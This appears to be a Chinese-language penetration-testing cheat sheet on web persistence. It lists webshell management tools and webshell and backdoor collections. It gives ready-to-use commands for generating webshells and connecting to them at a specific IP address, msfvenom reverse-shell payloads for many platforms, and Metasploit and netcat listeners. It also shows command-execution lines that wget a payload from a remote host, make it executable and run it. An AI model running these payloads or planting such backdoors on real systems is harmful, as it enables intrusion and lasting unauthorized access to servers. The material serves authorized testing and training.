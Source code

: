 Web持久化
----------------------------------------

WebShell管理工具
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `菜刀 <https://github.com/Chora10/Cknife>`_
	+ 支持asp，jsp，php，不支持HTTPS。
	+ 一句话木马通用后门。
- `Cknife <https://github.com/Chora10/Cknife>`_
	+ 支持asp，jsp，php，支持HTTPS。
	+ 一句话木马通用后门。
- `antSword <https://github.com/antoor/antSword>`_
	+ 支持asp，jsp，php。
	+ 一句话木马通用后门。
- `冰蝎 <https://github.com/rebeyond/Behinder>`_
	+ 动态二进制加密网站管理客户端，支持java,.net,php，HTTPS。
	+ 非通用后门。
- `天蝎Skyscorpion <https://github.com/shack2/skyscorpion>`_
	+ 采用 Java平台的 JavaFX 技术开发的桌面客户端，支持跨平台运行，目前基于JDK1.8开发，天蝎权限管理工具基于冰蝎加密流量进行 WebShell通信管理的原理。
	+ 目前实现了jsp、aspx、php、asp端的常用操作功能，在原基础上，优化了大文件上传下载、Socket代理的问题，修改了部分API接口代码。
- `Altman <https://github.com/keepwn/Altman>`_ 
	+ 支持asp，jsp，php。
- `Webshell Sniper <https://github.com/WangYihang/Webshell-Sniper>`_ 
	+ 仅支持在类Unix系统上运行。
- `quasibot <https://github.com/Smaash/quasibot>`_ complex webshell manager, quasi-http botnet
- webacoo
	+ 仅支持PHP，非通用后门。
	+ 生成webshell： ``webacoo -g -o webacootest.php`` 
	+ 连接后门： ``webacoo -t -u http://106.54.74.40/webacootest.php`` 
- `weevely3 <https://github.com/epinna/weevely3>`_ Weaponized web shell
	+ 仅支持PHP，非通用后门。
	+ 生成webshell： ``weevely generate weevelytest ./weevelyphp.php`` 
	+ 连接后门： ``weevely http://106.54.74.40/weevelyphp.php weevelytest`` 
	+ 连接成功后，输入help，可以查看支持的命令和功能，注意执行模板命令需要加:号。
- `Godzilla哥斯拉 <https://github.com/BeichenDream/Godzilla>`_
	+ 支持asp，jsp，php，支持HTTPS。
	+ 非通用后门。
- Metasploit生成后门
	+ 基本参数
		::
		
			e 编码方式
			i 编码次数
			b 在生成的程序中避免出现的值
			f 输出格式
			p 选择payload
			l 查看所有payload
			a 选择架构平台(x86|x64|x86_64)
			o 文件输出
			c 添加自己的shellcode
			x|k 捆绑
	+ 基本格式：``msfvenom -p <payload> <payload options> -f <format> -o <path>``
	+ 示例
		::
		
			Binaries
				Linux：msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
				Windows：msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
				Mac：msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho
				Android：msfvenom -p android/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> R > shell.apk
			Web Payloads
				php：msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
					cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
				asp：msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp
				jsp：msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp
				WAR：msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war
			Scripting Payloads
				Python：msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py
				Bash：msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh
				Perl：msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl
			Shellcode
				Linux Based Shellcode：msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
				Windows Based Shellcode ：msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
				Mac Based Shellcode：msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
	+ Handlers
		::
		
			use exploit/multi/handler
			set PAYLOAD <Payload name>
			set LHOST <LHOST value>
			set LPORT <LPORT value>
			set ExitOnSession false
			exploit -j -z
			或
			nc -lvp port
			
	+ 上传木马
		::
		
			命令执行上传：
			system('wget http://10.10.10.131/shell_x64.elf -P /tmp/')
			
	+ 执行木马
		::
		
			system('chmod 777 /tmp/shell_x64.elf')
			system('/tmp/shell_x64.elf')
			注意tmp目录有写入执行权限。
		
			web页面：system("curl http://10.10.10.131/shell.asp")
	+ 交互
		::
		
			进入交互页面meterpreter会话执行以下：
			shell
			python -c "import pty;pty.spawn('/bin/bash')"

- Platypus【Linux】
	+ 支持多会话的交互式反向 Shell 管理器。
	+ 在多会话管理的基础上增加了在渗透测试中更加有用的功能（如：交互式 Shell、文件操作、隧道等），可以更方便灵活地对反向 Shell 会话进行管理。
	+ 项目地址：``https://github.com/WangYihang/Platypus``
	+ 帮助：``https://platypus-reverse-shell.vercel.app/quick-start/``

WebShell
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `php-reverse-shell <http://pentestmonkey.net/tools/web-shells/php-reverse-shell>`_
	+ ``$ip = '127.0.0.1';  // CHANGE THIS``
	+ ``$port = 3333;       // CHANGE THIS``
	+ 注意根据实际情况需要修改(若sh如何指向dash，为非交互的shell)：``$shell = 'uname -a; w; id; /bin/sh -i';->$shell = 'uname -a; w; id; /bin/bash -i';``
- `webshell <https://github.com/tennc/webshell>`_
- `PHP backdoors <https://github.com/bartblaze/PHP-backdoors>`_
- `php bash - semi-interactive web shell <https://github.com/Arrexel/phpbash>`_
- `Python RSA Encrypted Shell <https://github.com/Eitenne/TopHat.git>`_
- `b374k - PHP WebShell Custom Tool <https://github.com/b374k/b374k>`_
- `c99shell <https://github.com/KaizenLouie/C99Shell-PHP7>`_
- `wso <https://github.com/phpFileManager/WSO>`_
- `JSPSPY <https://www.webshell.cc/wp-content/uploads/2013/09/ASPXspy2.rar>`_
- `ASPXSPY <https://www.webshell.cc/wp-content/uploads/2013/09/ASPXspy2.rar>`_
- `phpspy <https://www.webshell.cc/wp-content/uploads/2013/09/phpspy.rar>`_
- ``/usr/share/webshells/*`` 
- `revshells.com在线shell生成 <https://www.revshells.com/>`_

Web后门
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `pwnginx <https://github.com/t57root/pwnginx>`_
- `Apache backdoor <https://github.com/WangYihang/Apache-HTTP-Server-Module-Backdoor>`_
- `SharpGen <https://github.com/cobbr/SharpGen>`_  .NET Core console application that utilizes the Rosyln C# compiler to quickly cross-compile .NET Framework console applications or libraries
- `IIS-Raid <https://github.com/0x09AL/IIS-Raid>`_ A native backdoor module for Microsoft IIS
